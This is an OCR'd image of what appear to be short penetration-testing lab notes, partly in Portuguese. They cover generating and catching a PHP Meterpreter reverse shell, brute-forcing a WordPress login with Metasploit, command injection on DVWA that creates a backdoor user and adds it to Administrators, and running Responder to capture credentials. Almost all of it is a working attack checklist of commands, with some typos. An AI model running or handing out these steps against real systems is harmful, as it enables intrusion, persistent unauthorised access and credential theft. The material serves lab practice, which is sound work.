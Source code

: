 ##METASPLOIT
msfconsole
msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1  LPORT=4444 -f raw >exploit.php 
use exploit/multi/handler or use 30 
set payload php/meterpreter/reverse_tcp 
Set LHOST ipadd 
Carregue um arquivo que você criou como exploit.php
Abra o terminal e digite run assim que obtiver a url digite url no navegador você obtém a sessão do meterpreter então digite ls obtenha os arquivos.

Força bruta de login com Metasploit:
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
set PASS_FILE /path/to/wordlist.txt
set RHOSTS <target_ip>
set RPORT 8080
set TARGETURI http://<target_ip>:8080/
set USERNAME admin
run

##DVWA
Set the Security Level "Low"
Click on the Command Injection Tab 
Check the parameter is vulnerable or not and it is vulnerable 
Now enter the system cmd's
| hostname
| whoami
| dir C:\path.txt
| type path.txt
| tasklist| Taskkill /PID /F
| dir C:\
| net user
| net user user001 /Add
| net user user001
| net localgroup Administrators user001 /Add
- Use created account user001 to log in remotely
- /PID: Process ID value od the process
- /F: Forcefully terminate the process

Disable Windows Functionality
fsutil = DisableLastAccess

##RESPONDER
- Linux
cd Responder
chmox +x ./Responder.py
sudo ./Responder.py -I eth0
passwd: \*\*\*\*
